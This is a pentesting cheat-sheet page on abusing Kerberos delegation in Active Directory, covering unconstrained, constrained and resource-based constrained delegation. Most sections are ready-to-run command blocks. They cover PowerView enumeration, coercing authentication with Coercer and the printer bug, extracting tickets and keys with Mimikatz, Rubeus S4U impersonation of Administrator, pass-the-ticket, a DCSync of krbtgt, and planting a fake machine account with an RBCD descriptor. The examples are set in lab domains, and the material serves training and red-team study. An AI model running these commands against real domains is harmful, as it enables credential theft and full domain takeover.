

# Kerberos Delegation

**Kerberos delegation:** allows services to impersonate the user in order to communicate with another service and perform actions on behalf the user.

***


Unconstrained Delegation: `TrustedForDelegation` = True

Constrained Delegation: `TrustedToAuthForDelegation` = True


***

## Unconstrained Delegation

Unconstrained Delegation allowing any service to use a user TGT in order to communicate with the **any** other service.

The TGT will be stored in the LSASS process.

### Enumerate

```powershell
# powerView
Get-NetComputer -Unconstrained
Get-DomainComputer -UnConstrained
Get-DomainComputer -Unconstrained -Properties DnsHostName
Get-DomainComputer -unconstrained | select samaccountname

# AD Module
Get-ADComputer -Filter {TrustedForDelegation -eq $True}
Get-ADUser -Filter {TrustedForDelegation -eq $True}
Get-ADComputer -Filter {TrustedForDelegation -eq $true -and primarygroupid -eq 515} -Properties trustedfordelegation,serviceprincipalname,description
Get-ADComputer -LDAPFilter "(userAccountControl:1.2.840.113556.1.4.803:=524288)"
Get-ADComputer "IIS" -Properties TrustedForDelegation, TrustedToAuthForDelegation,msDS-AllowedToDelegateTo,PrincipalsAllowedToDelegateToAccount

```

### **Exploitation**

#### Kali

and also you can use [Coercer](https://github.com/p0dalirius/Coercer) to forced Authentication with the server or DC has Unconstrained Delegation using any domain user

```bash
Coercer.py coerce \
  -u <user> -d <domain> -p <password> \
  -t <targetServer_OR_User> -l <listener/UD> --always-continue

#  Ex
Coercer.py coerce -u arya.stark -d north.sevenkingdoms.local -p 'Needle' -t kingslanding.sevenkingdoms.local -l winterfell --always-continue
```

#### Windows

It is possible to extract the TGTs from the service's LSASS process using `Mimikatz` and perform pass the ticket.

```powershell
# Extract the TGT
Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'

# Pass the ticket
Invoke-Mimikatz -Command '"kerberos::ptt TGT.kirbi"' 
Rubeus.exe ptt /ticket:"base64 | file.kirbi" # Rubues allows base64 format as alternative
```

### **Printer bug**

The printer bug uses an RPC call of MS-RPRN (`print spooler service`) which allows any domain user can force any machine that running the Spooler service to connect to second a machine of the domain user's choice.

.png>)

**1. Run on compromised Server Rubeus monitor**

```powershell
# run it on server has Unconstrained Delegation # to open Listener
Rubeus.exe monitor /interval:5 /nowrap

# spectator on ticket in memoty
```

<figure><figcaption></figcaption></figure>

2. Run on compromised Domain User the RPC Call using [SpoolSample](https://github.com/leechristensen/SpoolSample) \ [Coercer](https://github.com/p0dalirius/Coercer)

```powershell
MS-RPRN.exe \\dc.machine.local \\compromised.machine.local
```

3. pass-the-ticket

```powershell
#Copy the base64 encoded TGT
Rubeus.exe ptt /ticket:<ticket.kirbi>
```

4. DCSync

```powershell
mimikatz.exe
lsadump::dcsync /domain:domain.local /user:krbtgt
```

***

## Constrained Delegation

Constrained Delegation allowing **specified** services on **specified** computers to use a user TGT in order to communicate with the **any** other service.

in order to create a more restrictive delegation mechanism, Microsoft develop two Kerberos extensions known as Service for user (S4U):

* Service for User to Self (S4U2self) - allows a service to obtain forwardable TGS to itself on behalf of user. (server can impersonate user in the same range)
* Service for User to Proxy (S4U2proxy) - allows a service to obtain a TGS to another service on behalf of user. but services are from white list controlled by `msDS-AllowedToDelegateTo` attribute.

### **Enumerate**

```powershell
# powerView
Get-DomainUser -TrustedToAuth
Get-DomainComputer -TrustedToAuth

# AD Module
Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo
```

### **Exploitation**

```powershell
Rubeus.exe s4u /user:websvc /aes256:<aes256_key> /impersonateuser:Administrator /msdsspn:CIFS/dcorp-mssql.dollarcorp.moneycorp.local /ptt

# You can change the target service in the ticket
Rubeus.exe s4u /user:USer-Delegate-Service /aes256:<aes256_key> /impersonateuser:Administrator /msdsspn:time/dcorp-dc.dollarcorp.moneycorp.LOCAL /altservice:ldap /ptt
```

***

## Resource Based Delegation

Instead of the white list of SPNs controlled by `msDS-AllowedToDelegateTo` attribute, resource based controlled by the `msDS-AllowedToActOnBehalfOfOtherIdentity`

To abuse RBCD(Resource Based Constrained Delegation \*\*\*\*) we need Write permissions over the target machine `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute.

انا كماشين 1 و عايز اعمل اكسيس علي ماشين 2 فلازم انا ابقي تبع الوايت ليست اللي حطاها الماشين اللي بتستقبل الاتصال اللي هي ماشين 2 علي عكس الكونستريند دليكشين المرسل هو اللي بيحط وايت ليس للي هيستقبل

### **Enumerate**

```powershell
# Check if allowed to create machines
Get-DomainObject -Identity "dc=domain,dc=local" -Domain domain.local | select ms-ds-machineaccountquota

# Check Write premissions to modify msDS-AllowedToActOnBehalfOfOtherIdentity attribute on target machine
Find-InterestingDomainACL | ?{$_.identityreferencename -match 'ciadmin'}

# Check if RBCD is set using PowerView - This can be used to verify also
Get-DomainRBCD  
```


if **`ms-ds-machineaccountquota ≠0`** we can execute **`NoPac Attack`** which allowed to Escalate user privilege to domain Admin privilege using one command


### **Exploitation**

**Create fake machine**

```powershell
# Using Powermad
import-module powermad
New-MachineAccount -MachineAccount dcorp-student483 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```

**Change security descriptor**

<figure><figcaption></figcaption></figure>

```powershell
$TargetComputer = 'dcorp-mgmt'
$FakeComputer = 'dcorp-student483'

# Using PowerView
$ComputerSid = Get-DomainComputer $FakeComputer -Properties objectsid | Select -Expand objectsid
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$ComputerSid)"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
Get-DomainComputer $TargetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}

# One liner using PowerView
Set-DomainRBCD -Identity $TargetComputer -DelegateFrom $FakeComputer -Verbose   
# Using AD Module
Set-ADComputer -Identity dcorp-mgmt -PrincipalsAllowedToDelegateToAccount $FakeComputer 

# Verify
Get-DomainComputer dcorp-mgmt -Properties 'msds-allowedtoactonbehalfofotheridentity'
# Verify Result
msds-allowedtoactonbehalfofotheridentity
----------------------------------------
{1, 0, 4, 128...}

# Verify using ADModule
Get-ADComputer dcorp-mgmt -Properties PrincipalsAllowedToDelegateToAccount
```

**Abuse using Rubeus**

```powershell
## Get the fake machine hash
Rubeus.exe hash /password:123456 /user:dcorp-student483 /domain:dollarcorp.moneycorp.local
## If used AD Module need to extract the hash from lsass using mimikatz
Invoke-Mimikatz -Command '"sekurlsa::ekeys"'

# Imporsnate wch ask for S4U2Self + S4U2Proxy TGS
Rubeus.exe s4u /user:dcorp-student483$ /rc4:32ED87BDB5FDC5E9CBA88547376818D4 /impersonateuser:Administrator /msdsspn:http/dcorp-mgmt /ptt

# Verify (winrs on this case)
winrs -r:dcorp-mgmt cmd
```

\
